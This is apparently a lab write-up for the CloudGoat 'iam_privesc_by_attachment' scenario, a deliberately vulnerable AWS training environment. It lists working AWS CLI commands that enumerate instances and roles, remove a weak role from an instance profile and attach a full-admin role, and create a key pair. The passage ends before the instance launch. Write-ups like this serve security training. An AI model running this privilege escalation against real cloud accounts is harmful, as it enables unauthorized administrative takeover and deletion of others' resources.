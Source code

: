 
| ++             | ++                                       |
| -------------- | ---------------------------------------- |
| Scenario Goal  | deleting the `cg-super-critical-security-server`            |
| Size           | Medium                                    |
| Difficulty     | Moderate                                     |
| Command        | `$ ./cloudgoat.py create iam_privesc_by_attachment` |
| lesson learned | <font color=red> check role, create ec2, swap role, terminate other service </font> |


Starting with a very limited set of permissions
- leverage the instance-profile-attachment permissions to create a new EC2 instance with significantly greater privileges than their own.
- With access to this new EC2 instance, the attacker gains full administrative powers within the target account and is able to accomplish the scenario's goal
  - deleting the `cg-super-critical-security-server`
  - and paving the way for further nefarious actions.


![6874](https://i.imgur.com/n9sGgxH.png)


```bash
# got the IAM User "Kerrigan"
# uses their limited privileges to explore the environment.
aws configure --profile Kerrigan


# lists EC2 instances
# identifying the "cg-super-critical-security-server"
# unable to directly affect the target
aws ec2 describe-instances \
    --profile Kerrigan

aws iam list-instance-profiles \
    --profile Kerrigan



# enumerate existing instance profiles and roles within the account
# identifying an instance profile they can use and a promising-looking role.
# swap the full-admin role onto the instance profile.

aws iam list-roles \
    --profile Kerrigan

aws iam remove-role-from-instance-profile \
    --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> \
    --role-name cg-ec2-meek-role-<cloudgoat_id> \
    --profile Kerrigan

aws iam add-role-to-instance-profile \
    --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> \
    --role-name cg-ec2-mighty-role-<cloudgoat_id> \
    --profile Kerrigan



# creates a new EC2 key pair.
aws ec2 create-key-pair \
    --key-name pwned \
    --profile Kerrigan

```
